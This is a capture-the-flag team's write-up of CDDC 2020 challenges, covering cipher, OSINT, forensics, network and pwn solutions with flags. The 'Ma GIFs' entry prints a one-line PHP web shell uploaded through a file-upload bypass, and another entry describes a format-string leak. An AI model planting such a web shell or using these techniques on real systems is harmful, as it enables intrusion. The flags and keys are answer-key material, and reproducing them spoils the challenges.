










## WARP GATE FIVE

### [Web-1] No Time




We were given a website that has a countdown, viewing the page source and the flag was in a comment

### [Crypto-1] My Best Friend, Julius!

JHLZHY_ZLSSZ_ZLHZOLSSZ_IF_AOL_ZLHZOVYL

Flag: CAESAR_SELLS_SEASHELLS_BY_THE_SEASHORE

Gaius **Julius** Caesar. Probably a caesar shift cipher, use [cryptii caesar](https://cryptii.com/pipes/caesar-cipher) to decrypt it.

### [OSINT-1] Better Alternative Than TV

Google "UnduplicitousCorp" result in a Youtube Channel. Flag was found at about channel page.

### [Web-2] VulnLogin




Login code was client sided at js/login.js. The code seems to use md5, finding the reverse lookup of the hashes and obtain the username and password
flag format is CDDC20{username_password}

### [Misc-1] Welcome to CDDC 2020

Flag can be found in the slack text channel

### [OSINT-2] Fun with File Extensions


Download Organisation_Chart.pdf found in the website. Opening this pdf file in photoshop allow you to extract the flag image.


### [Forensics-1] Can't See A Thing


Flag can be found in the comment metadata of the image. Can be view by right clicking img.jpg > Properties > Details > Comments. Mirror the text to obtain the flag.



Flag: `CDDC20{pho70gr4phy_i5_aw3sOmE}`


### [Pwn (Linux)-1] nc

```bash
nc nc.chall.cddc2020.nshc.sg 10000
```
netcat to given domain and port

### [Crypto-2] Cryptic Message

hq hm kbq jipoox yhnnhatoq qb abkmqjtaq p mijhim bn hknijikaim, ipaS yidikyikq tdbk hqm djIyiaimmbJ pky ipas mhcdoi hk hqmion. hn, pnqij ybhkg mb, bkI mhcdox rkbarm btq poo qsi aikQjpo hknijikaim pky djimikqm bki'm ptyhikai vhqs qsi mqpjqhkg-dbhkq pky qsi abkaoTmhbk, bki cpx dJbytai p mqpjqohKg, qsbtgs dbmmhlox p cijiqjhahbtM, inniaq.

My teammate Ethan found out that the ciphertext was encrypted with a substitution  cipher. Use [Automated substitution cipher solver](https://quipqiup.com/) and group all capitalized letters to obtain flag.

### [Network-1] Baby Shark

Viewing the pcap in wireshark show us a bunch of HTTP traffic including images. Export objects and flag is found in one of the images.

Flag: `CDDC20{TLP_RED_EYES_ONLY}`

### [Network-2] Mama Shark

Also similar to the previous network challenge. Extracting the HTTP object and the flag can be found in a text file.

Flag: `CDDC20{JUST_GIVE_ME_TL:DR}`

### [Forensics-2] Shell History

Download the virtual machine and run the machine. The flag can be found in the .bashhistory in user home directory.

### [Pwn (Linux)-2] \(2^31\)-1

```bash
nc zer0.chall.cddc2020.nshc.sg 20002
```

My teammate Ethan mutiple 2^31-1 by 2 and able to get the program to print out 0 which results in the flag. 

### [Misc-2] ARGH

Key: GZ2gXZ3bD2qqNyNxXb5LJ8HfHQtTL5VHA
Execute the binary and feed the key

### [Crypto-3] Iffy Glyphs


Reverse Search Image in Yandex reveal that this is a Dancing Men Cipher. Decrypt the image to obtain the flag.

### [Misc-3] Add to Your Reading List

Annotated PDF have bolded text in some pages, combine all of them to obtain flag

### [Web-3] Keep Me Posted

Send a post request to website with Authorization header set to the base64 of "Yes"

### [OSINT-3] Transparency is the Best

My teammate Jun Yan discovered the website `tt7ncdhj367dh8mu2pb6.unduplicitouscorp.tech` by using a internet tools to find subdomains, under this domain there is a `flag.tt7ncdhj367dh8mu2pb6.unduplicitouscorp.tech` which result in the flag.
[Subdomain Finder](https://borysek.eu/ct/)

### [RE (Windows)-1] Decompile Me (Unsolved)

Use tools such as [unpy2exe](https://github.com/matiasb/unpy2exe). Couldn't get it working.

### [Forensics-3] Top Secret

TopSecret is a .ad1 file, can be view in FTK Imager software and flag is hidden in a text file with lorem texts. 

### [Pwn (Linux)-3] Find Singapore Bug

FSB also known as Format String Bug, able to leak out flag by inputting many `%x` or `%c`. Swap Endianess to obtain the flag

Flag: `CDDC20{AAAABBBB-Oh~YouLeakedIt-CCCCDDDD}`

## WARP GATE FOUR

### Visual Noise




Use different image checker.
[https://www.diffchecker.com/diff](https://www.diffchecker.com/diff)

Flag: `CDDC20{V1suA1_CrYPT0_iS_s0_53cuRE}`

### [OSINT-1] Funky Transfer Pact (Unsolved)

### Recycling Bin

`1.img` is mountable file, mount it to extract the content. In the folder, there is a test.zip which is an excel file document. Rename test.zip to test.xlsx to obtain the flag.

### How QueeR...



A Maxicode QR Code, invert the image and use online decoder

### Great Sphinx of Unduplicitous Corp (Unsolved)

### Ma GIFs

We were given a website where we can upload GIF



The website has File Upload Vulnerability, you are able to upload a simple backdoor code by modifying the Content-Type header.



```bash
<?php echo "</pre>"; system($_GET['cmd']); ?>
```
After uploading the backdoor, we can execute our commands in the url.




### ilovedes

Use des decryptor tool online, key is "ilovedes"
[DES decryptor tool](http://des.online-domain-tools.com/)

Flag: `CDDC20{i_l0v3_5yMmetR1c_EnCryp7i0N}`

### Secret Code (Unsolved)

Using Ghidra, a free and open source reverse engineering tool. It was able to reconstruct some of the source code back, however we were not sure on how to go on from here.

```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  undefined4 uVar1;
  int in_GS_OFFSET;
  int local_18;
  int local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  local_18 = 0;
  puts("         __                                     _           ");
  puts(" / / _   ) )     _   ) o  _ o _)_ _       _    / ` _   _ _  ");
  puts("(_/ ) ) /_/ (_( )_) (  ( (_ ( (_ (_) (_( (    (_. (_) ) )_) ");
  puts("               (                         _)            (    \n");
  printf("[S][E][C][R][E][T] [C][O][D][E]: ");
  __isoc99_scanf(&DAT_000109b2,&local_18);
  if (local_18 == -0xff23502) {
    check(0xf00dcafe);
  }
  else {
    check(local_18);
  }
  uVar1 = 0;
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar1 = __stack_chk_fail_local();
  }
  return uVar1;
}

```

### Something's Going On (Unsolved)

### What Time Is It? \[1\] (Unsolved)

### Suspicious Service (Unsolved)

Using Ghidra, a free and open source reverse engineering tool. It was able to reconstruct some of the source code back, however we were not sure on how to go on from here.

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  undefined local_10c [256];
  int local_c;
  
  FUN_00011090(stdin,0);
  FUN_00011090(stdout,0);
  FUN_00011090(stderr,0);
  local_c = 0x12345678;
  FUN_000110a0(local_10c);
  if (local_c == 0x1343d00) {
    FUN_000110b0("cat flag");
  }
  return 0;
}


void FUN_000110a0(void)

{
  int unaff_EBX;
  
                    /* WARNING: Could not recover jumptable at 0x000110a4. Too many branches */
                    /* WARNING: Treating indirect jump as call */
  (**(code **)(unaff_EBX + 0x10))();
  return;
}
```

### Between 0&1 (Unsolved)

### WYSIWYG (Unsolved)

## Addtional resources

https://blog.justins.in/cddc20/

Note: *The website above solves some challenges that my team did not, you may want to read it.*